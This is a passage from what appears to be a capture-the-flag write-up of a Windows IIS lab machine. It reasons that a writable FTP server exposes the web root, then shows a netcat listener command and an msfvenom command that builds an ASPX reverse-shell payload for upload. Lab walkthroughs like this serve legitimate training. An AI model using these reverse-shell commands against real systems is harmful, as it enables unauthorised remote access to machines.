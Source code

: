 #### Exploration

Let's browse to `http://10.10.10.5/`.

![IIS homepage](iis-homepage.png)

It's a standard installation page for IIS 7.

In fact, it corresponds to the `iisstart.htm` file we found on the FTP server.
The image is also `welcome.png`. Therefore, we can assume that the FTP server
holds the source code of the website!

## Foothold (File upload)

Since we have access to the FTP server, and that it contains the source code of
the website, we can upload arbitrary files to the web server filesystem.

Luckily, we know that the website is using ASP.NET... so it might be a great way
to obtain a foothold!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to generate a `windows/shell_reverse_tcp`
payload.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.5" LPORT="9001" -f "aspx" -o "/workspace/revshell.aspx"
```
